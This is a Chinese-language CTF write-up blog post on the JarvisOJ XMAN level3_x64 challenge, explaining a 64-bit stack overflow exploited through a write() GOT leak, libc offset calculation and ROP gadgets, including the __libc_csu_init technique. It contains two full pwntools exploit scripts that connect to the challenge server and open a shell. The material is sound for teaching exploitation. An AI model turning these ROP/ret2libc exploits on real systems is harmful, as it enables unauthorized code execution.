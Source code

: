 ```yaml
---
layout: post
title: 「JarvisOJ」XMANlevel3_x64题解
date: 2018-08-10 13:55:00
author:     "许大仙"
catalog: true
tags:
    - CTF
---
```


## 一、解题思路 ##

checesec查看

![栈保护情况](/img/assets/img/checksec3_64.jpg)

代码段和数据段不存在随机化，栈不可执行，无金丝雀值。

反汇编level3_x64，可知单纯靠elf=ELF("./level3_x64")，引入level3_x64文件，是不能得到system函数的调用地址的。**观察函数列表就知道，没有system函数，所以PLT表中没有system函数的条目[这个程序没有调用过system函数，故system不参与符号解析过程，符号表中没有system]。**

所以sys_addr = elf.plt['system']或elf.symbols['system']是找不到表项/条目的。

在IDA中反汇编libc-2.19.so，可以在函数列表中找到“system”、字符串窗口中找到“/bin/sh”

![“system”和“/bin/sh”](/img/assets/img/sys_bin3.jpg)

所以还要引入.so文件[libc_elf=ELF("./libc-2.19.so")]。通过获得有GOT/PLT表项的某个函数A的真实地址以及.so文件中A和system函数和“/bin/sh”字符串偏移量与程序运行时三者的运行时(真实)地址偏移量相同的关系，通过A的真实地址+相等偏移量获得system函数的调用地址和"/bin/sh"字符串的地址。[类似于JOJXMAN3笔记所述]


因为write/read在level3_x64程序中有符号引用，所以他们有PLT条目[可以调用write来打印write _ got->recv(4)->获取write的真实地址]和GOT条目[GOT表泄露了他们的真实地址]

注:

- elf.plt['write']和elf.got['write']，仅仅只是write函数在PLT表和GOT表的索引，不是PLT表和GOT表的具体的内容[以elf.got['write']为索引，索引到的GOT表内容是write函数的运行时(真实)地址]

- python没有指针，故不能*write_got，来获得write函数的真实地址。


与32位下的差别在于，32位机器下：write函数打印write_ got,即write(1,write _ got,4)，3个参数分别布置在栈中ebp+8,+12,+16; 
而64位机器下，打印write_ got为write(1,write _ got,8)，而且3个参数布置在%rdi,%rsi,%rdx。

设置三个参数：简单的方法即使ROPgadgets能直接得到合适的ROP链，要不然就是使用通用gadgets：__ libc_ csu_ init【以下会给出两种方法】

## 二、解题步骤 ##

![查找可用ROP链](/img/assets/img/ROP3.jpg)

我们可以布置栈，通过POP指令设置寄存器，通过ret指令将ROP连接起来，形成链。

> 0x00000000004006b3 : pop rdi ; ret
> 
> 0x00000000004006b1 : pop rsi ; pop r15 ; ret #多放置8字节任意数据用于填充%r15

通过ROPgadget工具查找的可用ROP链，只能设置%rdi和%rsi寄存器，剩下的%rdx怎么办？

![gdb反汇编在vulnerable_function中断点](/img/assets/img/disas.jpg)

![观察edx寄存器](/img/assets/img/disas9.jpg)

运气不错，edx寄存器在read退栈前一刻，保持着0x200[这个其实来自于栈溢出漏洞read(0, &buf, 0x200)中的第三个参数设置，此后vulnerable_function没有再动过这个寄存器]

![edx寄存器值的来源](/img/assets/img/read9.jpg)


write函数的定义就是ssize_t write(int fd, const void *buf, size_t nbyte);把buf中nbyte写入文件描述符handle所指的文档，成功时返回写的字节数，错误时返回-1.

- fd：文件描述符[1表示写到标准输出，即屏幕]；
- buf：指定的缓冲区，即指针，指向一段内存单元；
- nbyte：要写入文件指定的字节数；
- 返回值：写入文档的字节数（成功），-1（出错）

当写到nbyte的字节限制时，就write结束了。

因此edx大，没关系，多写出一点[>=8就好]。到时候recv(8)，就获取前8字节得到write _ got的值就可以了，剩下的不receive就行。

最后就是0x00000000004006b3和0x00000000004006b1来设置rdi和rsi，然后rdx不需要设置，保持0x200

脚本情况就是：

```python
#!/usr/bin/python

from pwn import *

context(arch="amd64",os="linux",log_level="debug")
re = remote("pwn2.jarvisoj.com",9883) 
#re = gdb.debug(["./level3_x64"])

elf = ELF("./level3_x64")
write_plt = elf.plt['write']
write_got = elf.got['write']
prdi_addr = 0x00000000004006b3
prsi_addr = 0x00000000004006b1  
vuln_addr = elf.symbols['vulnerable_function']
```


​    
​    payload1 = 'a'*0x80 + 'a'*0x8 + p64(prdi_addr)+p64(1)+p64(prsi_addr)+p64(write_got) +'a'*0x8 + p64(write_plt) + p64(vuln_addr)
​    re.recvline()
​    re.sendline(payload1)
​    
```python
write_addr = u64(re.recv(8))

libc_elf=ELF("./libc-2.19.so")

#just address offset
sys_relative = libc_elf.symbols['system']
write_relative = libc_elf.symbols['write']
bin_relative = libc_elf.search('/bin/sh').next()

sys_addr = write_addr + sys_relative - write_relative
bin_addr = write_addr + bin_relative - write_relative

payload2 = 'a'*0x80 + 'a'*0x8 + p64(prdi_addr) + p64(bin_addr)+p64(sys_addr)

re.send(payload2)

re.interactive()
```


还有就是使用通用的gadgets：

![通用的gadgets调用流程](/img/assets/img/init9.jpg)

```python
#!/usr/bin/python

from pwn import *

context(arch="amd64",os="linux",log_level="debug")
re = remote("pwn2.jarvisoj.com",9883) 
#re = gdb.debug(["./level3_x64"])

elf = ELF("./level3_x64")
write_plt = elf.plt['write']
write_got = elf.got['write']
pr_addr = 0x00000000004006b3
vuln_addr = elf.symbols['vulnerable_function']
para_set_addr = 0x00000000004006AA
para_ret_addr = 0x0000000000400690

payload1 = 'a'*0x80 + 'a'*0x8 + p64(para_set_addr)+p64(0)+p64(1)+p64(write_got)+p64(8)+p64(write_got)+p64(1)+ p64(para_ret_addr)+'a'*56 + p64(vuln_addr)
re.recvline()
re.sendline(payload1)

write_addr = u64(re.recv(8))

libc_elf=ELF("./libc-2.19.so")

#just address offset
sys_relative = libc_elf.symbols['system']
write_relative = libc_elf.symbols['write']
bin_relative = libc_elf.search('/bin/sh').next()

sys_addr = write_addr + sys_relative - write_relative
bin_addr = write_addr + bin_relative - write_relative

payload2 = 'a'*0x80 + 'a'*0x8 + p64(pr_addr) + p64(bin_addr)+p64(sys_addr)

re.send(payload2)

re.interactive()
```


注意使用p64,u64,8字节而非4字节








